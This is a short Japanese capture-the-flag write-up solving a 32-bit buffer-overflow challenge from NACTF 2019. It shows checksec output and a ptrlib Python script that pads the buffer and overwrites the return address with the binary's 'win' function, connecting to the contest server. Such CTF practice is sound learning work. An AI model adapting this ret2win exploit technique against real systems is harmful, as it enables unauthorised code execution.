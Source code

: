 # [pwn 200pts] BufferOverflow #1 - Network Academia CTF 2019
32ビットバイナリで、全部無効です。
```
$ checksec -f bufover-1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   71 Symbols     No       0               6       bufover-1
```

これもret2winするだけです。（は？）
```python
from ptrlib import *

elf = ELF("./bufover-1")
#sock = Process("./bufover-1")
sock = Socket("shell.2019.nactf.com", 31462)
payload = b'A' * 0x1c
payload += p32(elf.symbol("win"))
sock.sendlineafter(">", payload)

sock.interactive()
```

# 感想
同じ問題じゃん。